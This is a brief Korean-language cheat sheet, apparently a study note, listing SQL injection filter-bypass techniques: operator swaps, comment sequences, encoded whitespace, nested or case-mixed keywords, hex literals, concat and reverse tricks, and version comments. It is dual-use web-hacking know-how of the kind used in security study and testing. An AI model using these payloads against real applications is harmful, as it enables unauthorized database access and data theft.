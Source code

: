 # SQL injection

### Filter Bypass(필터링 우회)

OR/AND     
->  ||/&&   
ex) select * from table where id='admin' or 1=1   
->  select * from table where id='admin' || 1=1   
ex) select * from table where id='admin' and pw='password'   
->  select * from table where id='admin' && pw='password'  
그 외 ^,=,!=,%,/,*,&,&&,|,||,>,<,XOR,DIV,LIKE,RLIKE,REGEXP,IS,IN,NOT,MATCH,AND,OR,BETWEEN,ISNULL   

주석   
->  -- # ;%00 -- - %23 /**/   
-- 주석 뒤에 공백문자가 있어야 된다.  
-- - 주석   
%23는 #을 의미한다.  
/*  주석할 내용  */   

=   
->  like in   
ex) select * from table where id='admin'  
->  select * from table where id like 'admin'   
->  select * from table where id in('admin')   

공백문자   
* tab : %09
* line feed(\n) : %0a
* carrage return(\r) : %0d
* 주석 : /**/
* 괄호 : ()
* 더하기 : +  
* back quote : \`
* vertical tab(\v) : %0b
* form feed(\f) : %0c
ex) id='admin' or 1=1   
->  id='admin'%09or%091=1   
->  id='admin'%0aor%0a1=1   
->  id='admin'%0dor%0d1=1   
->  id='admin'/\*\*/or/\*\*/1=1   
->  id=(admin)or(1=1)   
->  id="admin"+or+1=1   

특정 문자열    
replace   
replace("admin","",$in) 일 때   
adadminmin으로 우회 가능   
+을 사용해서 우회   
ad+min우회   
대소문자를 이용하여 우회   
aDmIn으로 우회   
reverse   
id=reverse('nimda')   
concat   
id=concat('adm','in')   
16진수   
id=x'61646d696e'   
id=0x61646d696e   
/\*! \*/   
/\*!union\*/   
where 필터링 join on으로 우회   
union,select 등이 필터링 되었을 땐 blind sql로 넘어간다.   
